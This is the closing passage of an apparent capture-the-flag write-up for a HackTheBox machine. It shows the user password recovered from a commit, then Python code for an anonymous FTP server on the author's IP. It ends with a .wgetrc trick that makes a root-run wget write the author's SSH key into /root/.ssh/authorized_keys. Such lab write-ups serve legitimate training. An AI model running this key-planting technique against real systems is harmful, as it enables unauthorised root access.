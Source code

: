  of commit we get the credentials.

{{< figure src="images/Untitled%2014.png">}}

{{< figure src="images/Untitled%2015.png">}}

`S3cr3t_unGu3ss4bl3_p422w0Rd`

I tried using the above password for user aaron and it worked I got **user flag**

## Privilege Escalation

{{< figure src="images/Untitled%2016.png">}}

I ran psypy64 and in another SSH terminal I ran the binary and found it runs axel and wget for http and ftp respectively. Let’s abuse wget. 

### Setting up FTP server

```python
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer

authorizer = DummyAuthorizer()
# authorizer.add_user("user", "12345", "/home/username", perm="elradfmw")
# authorizer.add_anonymous("/home/username", perm="elradfmw")
authorizer.add_anonymous("/home/tejas/HTB/BOX/Timing/ftpserver/", perm="elradfmw")

handler = FTPHandler
handler.authorizer = authorizer

server = FTPServer(("10.10.14.42", 21), handler)
server.serve_forever()
```

Now I realized after several attempt that `anonymous:anonymous@10.10.14.42/id_rsa.pub -O /root/.ssh/authorized_keys` as command won’t work as it takes whole input as URL.

So I found another way, is to write wget’s config in `.wgetrc` as `output_document = /root/.ssh/authorized_keys` as it mentions where the wget to store the output file by default. 

Thus I requested my SSH public key and stored it in authorized_keys in the remote user’s root. And Now I was able to login. 

**Got SSH session as root.**